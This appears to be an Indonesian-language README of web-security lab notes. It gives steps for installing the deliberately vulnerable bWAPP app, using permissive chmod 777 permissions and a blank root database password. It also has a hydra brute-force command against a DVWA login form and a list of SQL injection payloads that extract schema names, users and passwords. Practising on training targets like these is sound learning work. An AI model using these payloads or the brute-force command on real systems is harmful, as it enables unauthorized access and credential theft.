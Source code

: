 ## Burp Suite

## Install bWapp
1. Download file [di sini](https://sourceforge.net/projects/bwapp/files/bWAPP/)
2. Extrak file
3. pidahkan file di /var/www/html untuk pengguna linux dan untuk pengguna windows di pindah di htdocs
4. Selanjutnya ketikkan **sudo chmod 755 -R bWAPP_latest**
5. Arahkan path **/var/www/html/bWAPP_latest/bWAPP**
6. Untuk selanjutnya **sudo chmod 777 password/ images/ documents/ logs/**
7. Kemudian edit admin/setting.php sesuikan dengan laptop Anda

```
$db_server = "localhost"; 	// your database server (IP/name), here 'localhost'
$db_username = "root";		// your MySQL user, here 'root'
$db_password = "";		// your MySQL password, here 'blank'
```

8. Buka browser ketikan pada url ```http://localhost/bWAPP_latest/bWAPP/install.php```
9. Lalu klik pada Click here to install bWAPP.
10. Lalu ketik url ```http://localhost/bWAPP_latest/bWAPP/login.php```

## BruteForce

```sh
hydra 192.168.xx.x -l admin -P /home/hard/Documents/password.txt http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect. :H-Cookie: security=low; PHPSESSID=xxxxxxxxxxxxxxxxxxxxxx"
```

## SQL Injection

```
1' OR 1=1#
1' OR 1=1 union all select system_user(),user()#
1' OR 1=1 union select null,schema_name from information_schema.schemata#
1' OR 1=1  union select null,table_name from information_schema.tables#
1' OR 1=1 union select null,@@datadir #
1' OR 1=1 union select null,concat(first_name,0x0a,password) from users #
1' UNION SELECT database(),2-- -
1' UNION SELECT user,password from users#
```

